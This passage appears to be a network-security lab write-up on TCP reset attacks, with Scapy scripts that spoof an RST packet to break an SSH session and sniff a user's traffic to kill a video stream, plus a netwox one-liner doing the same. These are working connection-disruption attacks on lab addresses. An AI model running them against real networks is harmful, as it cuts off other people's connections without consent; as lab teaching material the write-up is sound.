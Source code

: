 Although the data is encrypted, the TCP header is simply readable plain-text. Then a spoofed RST packet can be composed and sent with [`rst_ssh.py`](./rst_ssh.py):

```python
from scapy.all import *

ip = IP(src="10.9.0.5", dst="10.0.2.5")
tcp = TCP(sport=22, dport=55494, flags="R", seq=565176032, ack=3567039357)

pkt = ip / tcp
ls(pkt)
send(pkt, verbose=0)
```
Turn to the user machine, the `ssh` connection is broken as expected:

![](./ssh_rst_2.png)

# Task 3

Assume that a user is watching YouTube video from the VM `10.9.0.5` (For better performance, you might clear up local history, data, and cookies of the browser on the user machine). We launch the attack from the attacker machine in the same subnet.

## Scapy

We can run a [`auto_rst`](./auto_rst.py) program to spoof an RST packet with proper `seq` and `ack` numbers whenever capturing a TCP packet from the user IP.

```python
from scapy.all import *

def spoof_tcp(pkt):
   ip  = IP(dst="10.0.2.5", src=pkt['IP'].dst)
   tcp = TCP(flags="R", seq=pkt['TCP'].ack,
                  dport=pkt['TCP'].sport, sport=pkt['TCP'].dport)
   spoofpkt = ip / tcp
   print("send a RST packet")
   send(spoofpkt, verbose=0)

pkt=sniff(filter='tcp and src host 10.0.2.5', prn=spoof_tcp)
```

Eventually, no video stream data can be gained from the server. The user cannot see any new video content.

![](./ytb_rst_1.png)

## Netwox

Or simply use `netwox` tool 78 to automatically reset the TCP connection.

```
sudo netwox 78 --filter "src host 10.0.2.5"
```
